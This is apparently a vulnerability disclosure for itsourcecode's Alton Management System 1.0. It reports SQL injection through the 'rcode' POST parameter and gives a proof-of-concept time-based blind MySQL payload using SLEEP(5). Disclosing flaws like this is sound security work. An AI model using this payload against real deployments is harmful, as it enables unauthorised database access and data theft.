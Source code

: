 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

The rcode parameter can be passed in for querying on the "search.chp" page, but due to the code's lax filtering of this parameter, it can lead to SQL injection.
<img width="1098" alt="image" src="https://github.com/user-attachments/assets/aa5fce7c-660e-441c-a3d0-42f00c93639f">

# Poc
```
Parameter: rcode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rcode=1' AND (SELECT 7363 FROM (SELECT(SLEEP(5)))sBIE) AND 'vFRq'='vFRq
```
